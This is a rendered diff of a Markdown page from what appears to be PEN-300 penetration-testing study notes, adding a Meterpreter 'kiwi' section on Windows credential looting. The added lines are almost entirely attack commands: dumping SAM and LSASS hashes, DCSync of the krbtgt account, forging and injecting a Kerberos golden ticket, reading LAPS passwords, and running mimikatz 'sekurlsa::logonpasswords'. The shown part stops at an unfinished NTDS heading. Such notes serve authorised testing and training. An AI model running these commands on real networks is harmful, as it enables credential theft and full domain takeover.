

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -161,3 +161,50 @@ or
 ```
 
 **Meterpreter:**
+
+Although all the previous methods included in this document are "manually doing", metasploit has provided us with a meterpreter extension called kiwi capable of this most of this looting.
+
+Dump the SAM & the LSASS(if LSA is enabled you need ot disabled it first):
+
+```
+#From a meterpreter session
+1. load kiwi
+2. creds_all
+
+Alternatively to dump only the SAM:
+#From a meterpreter session
+1. hashdump
+```
+
+To perform DcSync:
+
+```
+#From a meterpreter session
+1. load kiwi
+2. dcsync_ntlm contoso.com\krbtgt
+```
+
+To create and use a golden ticket:
+
+```
+#From a meterpreter session
+1. load kiwi
+2. golden_ticket_create -d contoso.com -u trike -s <sid_of_the_user_you_want_to_impersonate> -k <krbtgt_ntlm_hash> -t /root/Downloads/contoso.tck
+3. kerberos_ticket_use /root/Downloads/contoso.tck
+```
+
+To read LAPS:
+
+```
+#From a meterpreter session
+1. run post/windows/gather/credentials/enum_laps
+```
+
+Alternatively, you can use "kiwi_cmd" from a meterpreter shell to execute any mimikatz command:
+
+```
+1. load kiwi
+2. kiwi_cmd "sekurlsa::logonpasswords"
+```
+
+Dumping the NTDS from metaspoit:
````
